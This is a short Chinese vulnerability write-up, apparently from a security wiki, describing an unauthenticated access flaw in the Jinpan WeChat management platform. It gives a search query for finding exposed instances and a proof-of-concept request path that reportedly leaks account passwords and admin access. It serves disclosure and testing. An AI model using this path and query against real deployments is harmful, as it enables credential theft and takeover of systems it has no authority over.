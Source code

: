 # 金盘 微信管理平台 getsysteminfo 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限

## 漏洞影响

<a-checkbox checked>金盘 微信管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="微信管理后台" && icon_hash="116323821"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1683077584403-fa2e6fa6-1f01-4152-99bc-215fb75fe462.png)

验证POC

```python
/admin/weichatcfg/getsysteminfo
```

![img](/assets/PeiQi-Wiki/img/1683077636041-b3cc7412-c71c-49bf-ad6a-cd0a386f6673.png)
